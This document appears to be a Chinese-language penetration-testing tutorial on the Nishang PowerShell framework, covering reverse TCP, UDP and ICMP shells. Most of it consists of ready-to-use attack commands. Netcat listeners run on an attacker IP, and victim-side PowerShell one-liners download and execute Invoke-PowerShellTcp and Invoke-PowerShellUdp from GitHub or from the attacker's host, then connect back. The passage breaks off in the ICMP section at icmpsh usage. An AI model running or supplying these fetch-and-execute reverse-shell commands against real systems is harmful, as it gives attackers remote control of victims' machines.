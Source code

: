 Nishang([https://github.com/samratashok/nishang](https://github.com/samratashok/nishang) )是一个基于PowerShell的攻击框架，集合了一些PowerShell攻击脚本和有效载荷，可反弹TCP/ UDP/ HTTP/HTTPS/ ICMP等类型shell。说明：本文没有具体实现nishang反弹http/https shell



## Reverse TCP shell

攻击者(192.168.159.134)开启监听：<br>`nc -lvp 6666`

目标机执行：

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com
/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.159.134 -port 6666
```

或者将nishang下载到攻击者本地：<br>`powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.159.134 -port 6666`<br>[![](https://p4.ssl.qhimg.com/t01cd5e14ecee393b16.png)](https://p4.ssl.qhimg.com/t01cd5e14ecee393b16.png)

[![](https://p4.ssl.qhimg.com/t01aa7977d45a756bcd.png)](https://p4.ssl.qhimg.com/t01aa7977d45a756bcd.png)



## Reverse UDP shell

攻击者(192.168.159.134)开启监听：<br>`nc -lvup 53`

目标机执行：

```
powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellUdp.ps1');
Invoke-PowerShellUdp -Reverse -IPAddress 192.168.159.134 -port 53
```

[![](https://p2.ssl.qhimg.com/t018774879a94cd66ea.png)](https://p2.ssl.qhimg.com/t018774879a94cd66ea.png)

[![](https://p4.ssl.qhimg.com/t01a05a3a0d929b0f02.png)](https://p4.ssl.qhimg.com/t01a05a3a0d929b0f02.png)



## Reverse ICMP shell

需要利用icmpsh_m.py ([https://github.com/inquisb/icmpsh)和nishang中的Invoke-PowerShellIcmp.ps1](https://github.com/inquisb/icmpsh)%E5%92%8Cnishang%E4%B8%AD%E7%9A%84Invoke-PowerShellIcmp.ps1) 来反弹ICMP shell。

首先攻击端下载icmpsh_m.py文件

```
icmpsh_m.py Usage：
python icmpsh_m.py [Attacker IP] [Victim IP]
```

